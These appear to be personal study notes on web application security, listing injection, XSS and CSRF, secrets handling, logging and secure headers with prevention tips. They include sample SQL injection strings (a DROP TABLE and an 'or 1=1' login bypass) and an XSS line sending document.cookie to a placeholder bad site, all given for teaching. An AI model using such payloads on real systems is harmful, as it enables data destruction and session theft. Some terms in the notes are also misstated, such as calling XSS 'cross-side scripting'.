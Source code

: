 # Security

## Important Topics

- injections
- 3rd party libraries
- logging
- HTTPS everywhere
- XSS & CSRF
- code secrets
- secure headers
- access control
- data management
- don't trust anyone
- authentication

## Injections

- injecting code elsewhere
  - most famous -> SQL injections
  - `''; DROP TABLE table_name; --`
  - `''; or 1=1--` -> for passwords
- images are injected into DOM after rendering
- `textnode` can help to textify and sanitise input

### How to avoid

- sanitise input (check inputs for expected inputs)
  - whitelist vs. blacklist
- parametrise queries (prepared statements)
  - pre-compile SQL statements
  - object relational mappers -> provide statements for us
- ORMs (object relational mappers) like Knex.js

## 3rd party libraries

- ensure that library is trustworthy
- check popularity (forks, stars, etc.) of package
- snyk is a tool to test node moudle dependencies

## Logging

- gather all information about user actions/behaviour
- **insufficient logging** can provide gap for hacker to take actions going unseen
- 2 packages for JS:
  - morgan (HTTP logger middleware)
  - winston (log everything)

## HTTPS everywhere

- SSL / TLS certificates
- https://letsencrypt.org/

## XSS & CSRF

### XSS - Cross-Side-Scripting

- allows attacker to execute script in client's server
- `window.location = 'new_bad_website?cookie='+ document.cookie`
- prevent through input sanitisation

### Cross Side Request Forgery

- create bad URL that has malicious code in it

### How to prevent

- sanitise inputs
- no `eval()`
- no `document.write()`
- [content security policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [secure + HTTPOnly cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)

## Code secrets

- environmental variables
  - `process.env.NODE_ENV` by default
  - can define `.env` file for environmental variables
    - variables start with `REACT_APP_`
- commit history
  - NEVER add config files / passwords to git repo

## Secure headers

- `npm install helmet` -> [helmet docu](https://github.com/helmetjs/helmet)
- on server side (usually for express.js)
- middleware
- [HTTP headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)
- [HTTP header fields](https://www.tutorialspoint.com/http/http_header_fields.htm)
